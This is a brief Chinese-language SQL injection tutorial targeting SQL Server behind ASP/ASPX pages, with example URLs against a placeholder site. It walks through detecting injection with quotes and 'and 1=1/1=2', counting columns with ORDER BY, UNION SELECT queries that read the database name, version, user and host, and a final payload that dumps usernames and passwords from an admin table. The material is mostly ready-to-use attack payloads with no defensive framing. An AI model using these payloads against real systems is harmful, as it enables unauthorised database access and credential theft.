

## 1、简介

sqlserver经常与asp或者aspx一起使用，操作系统多数是win2012 win2018 
数据库版本 sql2008 sql2012

```http
http://www.demo1.com/index.aspx?id=1
```


## 2、注释符号

单行注释：--空格 

多行注释 ：/* xxx */ 

## 3、判断是否注入

' 单引号是否报错

以下页面是否相同
and 1=2
and 1=1

## 4、判断列数

order by 

```http
http://www.demo1.com/index.aspx?id=1 order by 3
```

## 5、联合查询

联合查询 需要每个列的类型要一直 或者可以使用null 直到页面出错。

```http
http://www.demo1.com/index.aspx?id=-1 union select 1,'2','3'
http://www.demo1.com/index.aspx?id=-1 union select null,null,null
```

## 6、查询系统信息

db_name() 数据库名
@@version 版本信息
user_name() 当前用户
host_name()  计算机名称

```http
http://www.demo1.com/index.aspx?id=-1 union select 1,db_name(),host_name()
http://www.demo1.com/index.aspx?id=-1 union select 1,user_name(),@@version
```



## 7、查询数据

```http
http://www.demo1.com/index.aspx?id=-1 union select null,username,password from admin
```


